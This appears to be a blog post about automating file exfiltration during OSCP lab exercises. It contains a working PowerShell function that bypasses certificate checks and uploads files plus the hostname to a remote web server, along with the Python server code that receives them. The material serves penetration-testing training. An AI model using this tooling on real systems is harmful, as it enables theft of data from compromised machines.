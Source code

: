   GNU nano 7.2                                                                                                                    2024-02-08-Lazy-file-exfiltration-for-the-OSCP-labs.md *                                                                                                                           
---
title: "Lazy file exfiltration for OSCP labs with powershell python and crackmapexec"
date: 2024-02-08T15:34:30-06:00
categories:
  - blog
tags:
  - exfiltration
  - python
  - powershell
  - OSCP
---
<b>Lazy is good when the result is that lazy becomes affordable.</b>

<b>Background:</b>
While diving into OSCP labs, I found myself searching through disk contents for clues. Although I'm adept at using the command line, sometimes the ease of navigating folders visually is preferable. Missing crucial details in a lab, likely from being tired, made me decide to find a better solution to avoid such misses.

<b>The Idea:</b>
My plan was to automate a simple yet effective process. The goal was to filter and exfiltrate files to a web server where I could easily sift through them. Simplicity was the cornerstone.

<b>Solution:</b>
I opted for a Powershell script utilizing Get-ChildItem with a -Filter parameter, coupled with the System.Net.Webclient class for exfiltration. I discovered a Python3 web server by another creator that fit my initial needs and decided to build upon it. Credit to the original creator: Lightweight HTTP Upload Server.

<b>Challenge:</b>
I needed more than just dumping files into a single folder; I wanted them organized. This meant enhancing the server to handle additional data from my script for better file management.

<b>Check It Out:</b>
See the current version on GitHub: Jeamajoal's Lazy PwshPy Exfiltrator. The Powershell script's core functionality is in the upload function, where it sends file data along with the file path, so the server knows where to place the files.

<b>Powershell snippet for uploading files:</b>

'''powershell
function UploadToWebServer($filepath, $url) {
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true } ;
        $filename = Split-Path $FilePath -Leaf
        $boundary = [System.Guid]::NewGuid().ToString()

        $TheFile = [System.IO.File]::ReadAllBytes($filePath)
        $TheFileContent = [System.Text.Encoding]::GetEncoding('iso-8859-1').GetString($TheFile)

        $id = $env:computername

        $LF = "`r`n"
        $bodyLines = (
            "--$boundary",
            "Content-Disposition: form-data; name=`"path`"$LF",
            $(Split-Path $FilePath),
            "--$boundary",
            "Content-Disposition: form-data; name=`"id`"$LF",
            $id,
            "--$boundary",
            "Content-Disposition: form-data; name=`"filename`"; filename=`"$filename`"",
            "Content-Type: application/json$LF",
            $TheFileContent,
            "--$boundary--$LF"
        ) -join $LF

        Invoke-RestMethod $url -Method POST -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines
    }
'''

<b>Python server side for handling the data:</b>

'''python
def deal_post_data(self):
        global serverpath 
        line = b'' #Initialize line data as byte
        file_data = b''  # Initialize file_data as an empty byte string
        in_file_data = False #Initialize in file as boolean
        content_type = self.headers['content-type']
        if not content_type:
            return (False, "Content-Type header doesn't contain boundary")
        boundary = content_type.split("=")[1]
        boundary = boundary.replace('"','').encode()
        end_boundary = boundary + b"--"
        totalbytes = int(self.headers['content-length'])
        remainbytes = totalbytes
        #modify serverpath with alternate upload dir  
        if uDir:
            serverpath = os.path.join(os.getcwd(),uDir)
        else:
            serverpath = os.getcwd()
   
        #Process request
        while remainbytes > 0:
            line = self.rfile.readline()
            remainbytes -= len(line)

            if in_file_data:
                if boundary in line:
                    in_file_data = False
                    file_data = file_data[:-2]  # Remove the last CRLF before boundary
                    if end_boundary in line:
                        break  # End of data
                else:
                    file_data += line
                    continue

            if end_boundary in line:
                        break  # End of data
            if boundary in line:
                line = self.rfile.readline()
                remainbytes -= len(line)
                id = re.findall(r'Content-Disposition.*name="id"', line.decode())
                reqpath = re.findall(r'Content-Disposition.*name="path"', line.decode())
                fn = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                if fn:
                    in_file_data = True
                    file_name = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                    file_data = file_data[:-2]
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)

                elif reqpath:
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    reqpath = line
                    ip_address = self.client_address[0]
                    #remove \r\n
                    reqpathstr = reqpath.decode()
                    reqpathstr = reqpathstr.replace("\r","")
                    reqpathstr = reqpathstr.replace("\n","")
                    if reqpathstr.startswith('/') or reqpathstr.startswith('\\'):
                        reqpathstr = reqpathstr.strip('/')
                        reqpathstr = reqpathstr.strip('\\')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('//','/')
                    reqpathstr = reqpathstr.replace(':','')
                    reqpathstr = os.path.join(ip_address,reqpathstr)
                    finalpath = os.path.join(serverpath,reqpathstr)

                elif id:
                    #print(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = line.decode()
                    line = line.replace("\r","")
                    line = line.replace("\n","")
                    newid = line
                    
        if finalpath:
            serverpath = finalpath                    
        
        if newid:
            serverpath = serverpath.replace(ip_address,newid)

        serverpath = serverpath.lower()
        if not os.path.exists(serverpath):
            os.makedirs(serverpath)

        fn = os.path.join(serverpath, file_name[0])
        #print(f'Final upload path: {serverpath}')
        try:
            with open(fn, 'wb') as out:
                out.write(file_data)
            return ('succeeded',self.client_address,fn )
        except:
            return ('Failed',self.client_address,fn )
'''

Check out the github repo where i will add some use caes and screenshots so you can feel like you were there.

